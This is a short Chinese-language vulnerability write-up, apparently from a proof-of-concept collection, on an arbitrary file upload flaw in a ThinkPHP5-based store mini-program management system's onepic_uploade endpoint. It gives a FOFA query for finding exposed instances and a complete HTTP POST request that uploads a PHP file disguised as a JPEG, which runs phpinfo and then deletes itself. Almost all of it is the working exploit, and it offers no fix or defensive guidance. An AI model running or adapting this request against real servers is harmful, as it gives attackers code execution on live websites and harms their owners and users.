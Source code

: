 # 万能门店小程序管理系统onepic_uploade任意文件上传漏洞

万能门店小程序DIY建站无限独立版非微擎应用，独立版是基于国内很火的ThinkPHP5框架开发的，适用于各行各业小程序、企业门店小程序，万能门店小程序管理系统onepic_uploade任意文件上传漏洞

## fofa

```javascript
"/comhome/cases/index.html" 
```

## poc

```javascript
POST /comadmin/Remote/onepic_uploade?file=file HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBiKyL9D0p5OtH5zz
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBiKyL9D0p5OtH5zz
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();unlink(__FILE__);?>
------WebKitFormBoundaryBiKyL9D0p5OtH5zz--
```

![image-20241128164739396](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411281647503.png)
